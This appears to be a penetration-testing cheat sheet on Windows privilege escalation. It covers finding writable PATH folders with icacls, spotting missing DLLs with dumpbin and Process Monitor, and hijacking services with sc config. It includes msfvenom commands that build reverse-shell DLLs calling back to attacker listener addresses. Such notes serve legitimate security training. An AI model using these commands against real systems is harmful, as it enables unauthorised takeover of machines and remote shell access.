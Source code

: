 #### Checking for permissions of all folders inside PATH (how to modify for any path)

for group in $(whoami /groups); put group in command

```bash
for %%A in ("%path:;=";"%") do ( cmd.exe /c icacls "%%~A" 2>nul | findstr /i "(F) (M) (W) :\" | findstr /i ":\\ everyone authenticated users todos %username%" && echo. )
```

```bash
$SpecificPath = "C:\fakepath"

$output = icacls $SpecificPath 2>$null | Select-String -Pattern "(F) (M) (W) :\" | Select-String -Pattern ":\\ everyone authenticated users todos $env:username"
if ($output) { Write-Output "`n" }
```

You can also check the imports of an executable and the exports of a dll with:

```bash
dumpbin /imports C:\path\Tools\putty\Putty.exe
dumpbin /export /path/file.dll
```

If you have read and execute permissions (RX), then see if there is a missing DLL for the binary.

You can use Process Monitor to display real-time information about any process, thread, file system, or registry related activities. Our goal is to identify all DLLs loaded by BetaService as well as detect missing ones. Once we have a list of DLLs used by the service binary, we can check their permissions and if they can be replaced with a malicious DLL. Alternatively, if find that a DLL is missing, we could try to provide our own DLL by adhering to the DLL search order.

Since you need administritave privileges to run Process Monitor, it's standard practice to copy the service binary to a local machine. On this system, we can install the service locally and use Process Monitor with administrative privileges to list all DLL activity.

```bash
sc create SchedulerService binPath= "C:\Windows\Tasks\scheduler.exe" DisplayName= "Scheduler Service" start= auto
```

If you have permissions over the service, you can modify the service's executable path:

```bash
sc config servicename binPath= "C:\Path\To\New\Service.exe"
```

Note that you can create a reverse shell dll:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.178 LPORT=443 -f dll -o beyondhelper.dll
# or
msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=8888 -f dll > shell.dll
```

#### Using ProcMon

Browse in the Windows Explorer to C:\tools\Procmon\ and double-click on Procmon64.exe.
